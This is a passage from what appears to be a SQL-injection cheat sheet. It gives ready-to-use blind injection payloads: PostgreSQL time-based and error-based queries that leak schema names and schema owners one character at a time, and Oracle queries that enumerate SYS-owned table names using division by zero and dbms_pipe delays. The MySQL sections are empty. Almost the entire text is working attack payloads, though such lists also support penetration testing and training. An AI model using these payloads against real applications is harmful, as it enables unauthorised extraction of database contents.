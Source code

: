 ### PostgreSQL (time based) (schema name)

```sql
SELECT CASE WHEN (SELECT SUBSTR((SELECT table_schema FROM (SELECT ROW_NUMBER() OVER (ORDER BY table_schema) AS RN, table_schema FROM  (SELECT DISTINCT(table_schema) AS table_schema FROM information_schema.tables) AS thing) AS thing WHERE RN = 1),1,1))='I' THEN (SELECT pg_sleep(5)) ELSE NULL END
```

### PostgreSQL (error based) (schema owner)

```sql
SELECT CASE WHEN (SUBSTR((SELECT owner_name FROM (SELECT ROW_NUMBER() OVER (ORDER BY schema_name) AS RN, schema_name, owner_name FROM (SELECT nspname AS schema_name, pg_roles.rolname AS owner_name FROM pg_namespace JOIN pg_roles ON pg_namespace.nspowner = pg_roles.oid) AS THING) AS THING WHERE RN = 1),1,1))='p' THEN 1/(SELECT 0) ELSE NULL END
```

### PostgreSQL (time based) (schema owner)

```sql
SELECT CASE WHEN (SUBSTR((SELECT owner_name FROM (SELECT ROW_NUMBER() OVER (ORDER BY schema_name) AS RN, schema_name, owner_name FROM (SELECT nspname AS schema_name, pg_roles.rolname AS owner_name FROM pg_namespace JOIN pg_roles ON pg_namespace.nspowner = pg_roles.oid) AS THING) AS THING WHERE RN = 1),1,1))='p' THEN (SELECT pg_sleep(5)) ELSE NULL END
```

<aside>
💡 In MySQL there is no way to directly view owners of tables like in other DBMS’s

</aside>

### MySQL (error based)

```sql

```

### MySQL (time based)

```sql

```

## Enumerate Table Names Owned by Users

### Oracle (error based)

```sql
SELECT CASE WHEN SUBSTR((SELECT TABLE_NAME FROM (SELECT rownum rn, table_name, owner FROM all_tables WHERE OWNER = 'SYS') WHERE RN=1),1,1)='d' THEN TO_CHAR(1/0) ELSE NULL END FROM DUAL
```

### Oracle (time based)

```sql
SELECT CASE WHEN SUBSTR((SELECT TABLE_NAME FROM (SELECT rownum rn, table_name, owner FROM all_tables WHERE OWNER = 'SYS') WHERE RN=1),1,1)='d' THEN dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM DUAL
```
